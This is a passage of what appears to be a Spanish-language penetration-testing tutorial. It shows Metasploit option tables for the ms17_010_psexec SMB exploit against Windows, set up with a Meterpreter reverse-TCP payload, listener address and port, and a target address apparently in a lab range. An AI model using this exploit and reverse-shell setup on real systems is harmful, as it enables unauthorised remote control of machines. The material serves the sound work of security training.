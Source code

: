 ```
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share                                                                (ADMIN$,C$,...) or a normal read/write folder s                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.48    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```

Asegúrese de establecer sus opciones de carga útil correctamente antes de ejecutar el exploit. Cualquier opción que tenga`Required`establecido en sí será un espacio necesario para llenar. En este caso, debemos asegurarnos de que nuestro`RHOSTS, LHOST, and LPORT`Los campos están configurados correctamente. Para este intento, aceptar los valores predeterminados para el resto está bien.

### **Validar nuestras opciones**

Infiltración de ventanas

```
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                10.129.201.97                yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share                                                                (ADMIN$,C$,...) or a normal read/write folder s                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
```